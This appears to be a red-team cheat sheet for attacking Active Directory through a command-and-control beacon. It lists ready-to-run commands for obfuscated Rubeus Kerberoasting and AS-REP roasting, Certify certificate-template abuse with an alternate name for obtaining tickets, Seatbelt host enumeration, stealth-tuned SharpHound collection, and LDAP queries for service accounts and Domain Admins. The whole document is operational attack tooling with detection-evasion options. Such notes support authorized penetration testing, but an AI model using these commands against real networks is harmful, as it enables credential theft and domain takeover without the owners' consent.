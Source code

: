 
###### <font style="color:#00b3ff">Run Rubeus</font> 

```
/!\ no need to upload the .exe files to the target (just keep them on Kali)

- Run Rubeus for Keberoasting:
	-> execute-assembly SharpFuscated_Rubeus.exe kerberoast /user:Administrator /rc4opsec /nowrap /spn:MSSQLSvc/blabla.mydomain.com:1433

- Run Rubeus for Keberoasting (target specific SPN):
	-> execute-assembly SharpFuscated_Rubeus.exe kerberoast /rc4opsec /nowrap

- Run Rubeus to look for AS-REP roasting:
	-> execute-assembly SharpFuscated_Rubeus.exe asreproast
```


###### <font style="color:#00b3ff">Run Seatbelt</font> 

```
- Run Seatbelt:
	-> execute-assembly /root/donet-tools/Seatbelt.exe DotNet

- Run Seatbelt (enumerate entire local group) (more noisy):
	-> execute-assembly /root/donet-tools/Seatbelt.exe -q group=system

- Run Seatbelt (enumerate user environment) :
	-> execute-assembly /root/donet-tools/Seatbelt.exe -q group=user

- Run Seatbelt (check RDP connections):
	-> execute-assembly /root/donet-tools/Seatbelt.exe RDPSavedConnections
```


###### <font style="color:#00b3ff">Run Certify</font> 

```
-> execute-assembly /root/Sharpfuscate_Certify.exe find /vulnerable

If templates found exploitable (with this new certificate it is then possible to ask a TGT) :
	-> execute-assembly /root/Sharpfuscate_Certify.exe request /ca:myDC.mydomain.com\mydomain /template:mytemplate /altname:myuser
```


###### <font style="color:#00b3ff">AD Enumeration</font> 

```
- Check specific logon script:
	-> ldapsearch (&(objectClass=user)(objectCategory=person)(scriptPath=MyCustomScript.bat)) name,description,cn,scriptPath

- Run SharpHound:
	-> execute-assembly /root/tool/SharpFuscated_SharpHound3.exe --CollectionMethod Trusts --Throttle 5000 --Jitter 50 --EncryptZip --RandomizeFilenames --NoSaveCache

	-> execute-assembly /root/tool/SharpFuscated_SharpHound3.exe --CollectionMethod ObjectProps --collectalproperties --throttle 5000 --Jitter 50 --EncryptZip --RandomizeFilenames --NoSaveCache


- Get info:
	-> ldapsearch (&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))) servicePrincipalName,samAccountName,pwdLastSet,description

- List members of domain admin group:
	-> netGroupListMembers "Domain Admins"

```